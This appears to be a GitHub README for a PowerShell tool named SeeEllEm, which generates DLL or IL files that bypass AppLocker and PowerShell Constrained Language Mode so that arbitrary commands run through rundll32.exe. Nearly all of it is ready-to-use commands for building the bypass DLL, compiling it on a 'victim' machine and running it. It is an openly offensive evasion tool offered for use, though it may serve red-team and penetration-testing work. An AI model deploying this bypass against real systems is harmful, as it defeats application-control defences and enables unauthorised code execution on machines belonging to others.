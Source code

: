 # SeeEllEm
Automated Applocker/CLM dll generation which executes arbitrary powershell commands through rundll32.exe 


**Usage:**
```powershell
ipmo .\Invoke-SeeEllEm; Create-AppIl -DllName "ayylmao" -Entry "Poon" -Command "$ExecutionContext.SessionState.LanguageMode > C:\Windows\Tasks\bypass.txt" -Build
```
- Generates a dll called ayylmao.dll with the entrypoint of Poon with the command $ExecutionContext.SessionState.LanguageMode > C:\Windows\Tasks\bypass.txt

```powershell
ipmo .\Invoke-SeeEllEm; Create-AppIl -Entry "Poon" -Command "$ExecutionContext.SessionState.LanguageMode > C:\Windows\Tasks\bypass.txt"
```
- Generates a il to be transferred to the victim & compiled there, useful combined with https://github.com/FortyNorthSecurity/CLM-Base64 (Takes utf-8 not utf-16LE like windows powershell base64 does so cat file.il | base64 -w0)



`rundll32.exe Dllname.dll,EntryChosen`
- will execute in Unconstrained Language Mode if you have done your enum properly ;)

